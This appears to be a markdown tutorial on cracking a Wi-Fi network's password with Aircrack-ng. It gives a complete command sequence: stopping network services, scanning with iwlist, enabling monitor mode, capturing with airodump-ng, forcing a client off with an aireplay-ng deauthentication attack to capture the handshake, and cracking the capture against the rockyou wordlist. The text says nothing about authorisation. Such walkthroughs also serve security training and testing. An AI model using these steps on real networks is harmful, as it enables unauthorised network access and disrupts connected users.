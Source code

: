 # Cracking Wifi Networks With Aircrack-ng

In this tutorial, I'll take you through attacking a Wifi network using Aircrack-ng by way of a deauthentication attack.


First thing's first, we need to stop some things that like to hog the wireless interfaces.

![systemctl stop NetworkManager; systemctl stop wpa_supplicant](images/aircrack/stopservices.png)


Next, we need to be able to list available wifi networks for us to attack. In most GUI's this is trivial, but we'll do it from the command line using 'iwlist'.

![ip link set wlan0 up; iwlist wlan0 scan | grep ESSID:](images/aircrack/iwlistscan.png)


Now that we know which network we'd like to attack, we need to put our interface into promiscuous mode using airmon-ng. This is basically the same as running ```ip link set wlan0 promisc; ip link set wlan0 up```.

![airmon-ng start wlan0](images/aircrack/airmonstart.png)


Now, let's start listening.

![airodump-ng -w test -c 7 -N test wlan0mon](images/aircrack/airodump.png)
![airodump-ng output](images/aircrack/airodumpout.png)

The flags here, -w specifies which prefix to use when writing your files, -c specifies the wifi channel to listen on. This is also available in the output of iwlist, but it's a double-edged sword. If you don't specify this, airodump will switch channels rapidly in an effort to capture everything; however, if you do specify this, it's important to keep in mind that most access points will switch channels every so often in order to avoid interference.

We can also see the client AA:BB:CC:DD:EE:FF connected to our target network.


Of course, no matter how long we wait, we might never capture a handshake, so let's generate one ourselves with aireplay-ng.

![aireplay-ng -0 1 -e test -c aa:bb:cc:dd:ee:ff wlan0mon](images/aircrack/aireplaydeauth.png)

This impersonates the access point and tells the client to deauthenticate from the network. Of course, most clients will automatically rejoin, providing us with our much-needed handshake.


Now, we can see 'EAPOL' listed in the notes section of the airodump-ng output.

![airodump-ng output after our deauth attack](images/aircrack/airodumpoutafterdeauth.png)


This means we have everything we need, so let's copy over the rockyou wordlist and start cracking.

![cp /usr/share/wordlists/rockyou.txt.gz .; gunzip rockyou.txt.gz](images/aircrack/rockyou.png)
![aircrack-ng -w rockyou.txt test-01.cap](images/aircrack/aircrack.png)
![aircrack-ng output showing a successful cracking session](images/aircrack/aircrackout.png)
